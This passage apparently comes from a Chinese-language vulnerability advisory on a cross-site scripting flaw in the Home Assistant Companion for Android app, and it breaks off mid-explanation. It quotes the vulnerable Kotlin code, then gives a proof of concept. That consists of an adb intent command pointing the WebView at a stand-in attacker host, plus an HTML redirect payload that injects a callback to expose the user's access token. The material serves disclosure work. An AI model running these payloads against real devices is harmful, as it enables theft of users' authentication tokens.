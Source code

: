 ```plain
override fun onGetExternalAuth(context: Context, callback: String, force: Boolean) {
mainScope.launch {
    try {
        view.setExternalAuth("$callback(true,                     ${serverManager.authenticationRepository(serverId).retrieveExternalAuthentication(force)})")
    } catch (e: Exception) {
        // --snip--
    }
}
```

setExternalAuth 函数最终会对使用攻击者控制的构造数据构建的 JavaScript 代码进行评估，这引入了一个跨站脚本（XSS）漏洞。

```plain
override fun setExternalAuth(script: String) {
    webView.post {
        webView.evaluateJavascript(script, null)
    }
}
```

在这种情况下，攻击者可以通过将一个任意函数作为 callback 参数来创建一个漏洞，目的是窃取用户的认证令牌。因此，这个漏洞可能导致在 WebView 中执行任意 JavaScript 代码，有限的执行原生代码，以及潜在的凭证盗窃风险。

### Poc

针对 MyActivity 的一个 Intent 可以用于启动一个本地攻击，也就是说，由安装在 Home Assistant Companion for Android 同一设备上的恶意或受损应用程序发起的攻击。

```plain
adb shell am start -n
io.homeassistant.companion.android.debug/io.homeassistant.companion.android.launch.my.MyActivity -d '"https://attacker.acme/exploit"' -a android.intent.action.VIEW
```

这将会重定向最初的 WebView 到攻击者的网站[https://attacker.acme/exploit，在那里它可以提供类似于以下内容的服务或内容：](https://attacker.acme/exploit%EF%BC%8C%E5%9C%A8%E9%82%A3%E9%87%8C%E5%AE%83%E5%8F%AF%E4%BB%A5%E6%8F%90%E4%BE%9B%E7%B1%BB%E4%BC%BC%E4%BA%8E%E4%BB%A5%E4%B8%8B%E5%86%85%E5%AE%B9%E7%9A%84%E6%9C%8D%E5%8A%A1%E6%88%96%E5%86%85%E5%AE%B9%EF%BC%9A)

```plain
<html>
    <head>
        <script>
document.location = "homeassistant://navigate/entityId:\"}}));externalApp.getExternalAuth('{\"callback\": \"function func(a,b){alert(b.access_token);};func\", \"force\": \"true\"}');//";
        </script>
    </head>
    <body>
        <h1>Nothing to see here</h1>
    </body>
</html>
```

请注意，重定向包括了`homeassistant://navigate/`，以利用`shouldOverrideUrlLoading`函数并访问`WebViewActivity`。此外，它添加了`entityId`来利用跨站脚本（XSS）漏洞。在注入后，有效 payload 如下所示（为了清晰，添加了换行）：
